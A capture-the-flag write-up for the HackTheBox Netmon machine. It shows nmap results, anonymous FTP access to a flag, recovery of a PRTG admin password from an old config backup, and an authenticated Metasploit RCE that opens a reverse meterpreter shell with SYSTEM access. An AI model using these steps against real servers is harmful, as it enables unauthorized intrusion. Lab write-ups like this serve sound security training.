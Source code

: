 # CTF - [HackTheBox Netmon](https://app.hackthebox.com/machines/Netmon)
nmap:
```
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
```
Started probing the FTP server. Found the first flag under `/Users/Public`.
```
ftp> pwd
257 "/Users/Public" is current directory.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  07:05AM       <DIR>          Documents
07-16-16  08:18AM       <DIR>          Downloads
07-16-16  08:18AM       <DIR>          Music
07-16-16  08:18AM       <DIR>          Pictures
02-02-19  11:35PM                   33 user.txt
07-16-16  08:18AM       <DIR>          Videos
226 Transfer complete.
ftp> get user.txt -
```
According to [this documentation](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data), Paessler stores its data under `ProgramData`.
I downloaded the entire directory for further investigation:
```
wget -m ftp://10.10.10.152/ProgramData/Paessler
```
The `PRTG COnfiguration.old.bak` file contains some database credentials.
```
            <dbpassword>
              <!-- User: prtgadmin -->
              PrTg@dmin2018
            </dbpassword>
```
Tried logging into the site, however it still failed. Considering that the file I got this from was the "old" version, a variation of the password might work.
Tried `PrTg@dmin2019` and it worked...
<br/><br/>
![paessler](https://user-images.githubusercontent.com/59718043/142748250-11df4a10-2c4f-41db-9b9f-4ff9f01d2e5a.png)
<br/><br/>
The next move was to open a meterpreter session and get a shell. I already figured that there was a Metasploit module for PRTG, all I needed was the right credentials.
```
msf6 exploit(windows/http/prtg_authenticated_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.5:4444 
[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2020)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Sending stage (175174 bytes) to 10.10.10.152
[*] Meterpreter session 3 opened (10.10.14.5:4444 -> 10.10.10.152:58258 ) at 2021-11-20 22:33:08 -0500

meterpreter > shell
Process 1728 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
This challenge did not require any privilege escalation. The root flag can be easily found under `C:\Users\Administrator\Desktop>`.
```
c:\Users\Administrator\Desktop>whoami
whoami
nt authority\system
```
